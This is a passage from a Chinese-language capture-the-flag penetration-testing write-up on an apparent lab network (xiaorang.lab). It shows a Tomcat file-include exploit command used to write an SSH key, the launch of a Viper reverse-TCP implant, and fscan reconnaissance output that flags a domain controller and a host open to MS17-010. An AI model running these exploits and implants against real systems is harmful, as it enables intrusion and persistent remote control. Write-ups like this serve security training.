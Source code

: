 文件包含写入公钥

```sh
python tomcat.py read_file --webapp=root /upload/93f1c181b1a7a2e62af32df48e86470e/20231114122823471.jsp 39.98.109.252
```

然后直接登录拿到第一个 flag：

![](https://cdn.silente.top/img/202311132326857.png)

然后上个 viper 马：

```sh
nohup ./viper_linux_x64_revser_tcp.elf &
```


## 内网渗透

### 入口机信息收集

fscan/kscan

```
(icmp) Target 172.22.11.6     is alive
(icmp) Target 172.22.11.76    is alive
(icmp) Target 172.22.11.26    is alive
(icmp) Target 172.22.11.45    is alive
[*] Icmp alive hosts len is: 4
172.22.11.26:445 open
172.22.11.45:445 open
172.22.11.6:445 open
172.22.11.45:139 open
172.22.11.26:139 open
172.22.11.6:139 open
172.22.11.45:135 open
172.22.11.26:135 open
172.22.11.6:135 open
172.22.11.6:88 open
172.22.11.76:22 open
172.22.11.76:8080 open
172.22.11.76:8009 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo:
[*] 172.22.11.6
   [->]XIAORANG-DC
   [->]172.22.11.6
[*] NetInfo:
[*]172.22.11.26
   [->]XR-LCM3AE8B
   [->]172.22.11.26
[*] NetBios: 172.22.11.26    XIAORANG\XR-LCM3AE8B           
[*] NetBios: 172.22.11.45    XR-DESKTOP.xiaorang.lab             Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[+] 172.22.11.45        MS17-010        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetBios: 172.22.11.6     [+]DC XIAORANG\XIAORANG-DC     
[*] WebTitle: http://172.22.11.76:8080  code:200 len:7091   title:后台管理

netbios-ns://172.22.11.6:137   netbios-ns                 Port:137,Info:maincontroller:XIAORAN,Length:193,Digest:CKAAAAAAAAAAAAAAAAAAAAA,OperatingSystem:Windows,Hostname:XIAORANG-DC,ProductName:icrosoftWindowsnetbios
netbios://172.22.11.6:139      netbios                    Length:5,Port:139,Digest:"\x83\x00\x00\x01\x8f",ProductName:crosoftWindowsnetbios-,OperatingSystem:Windows
```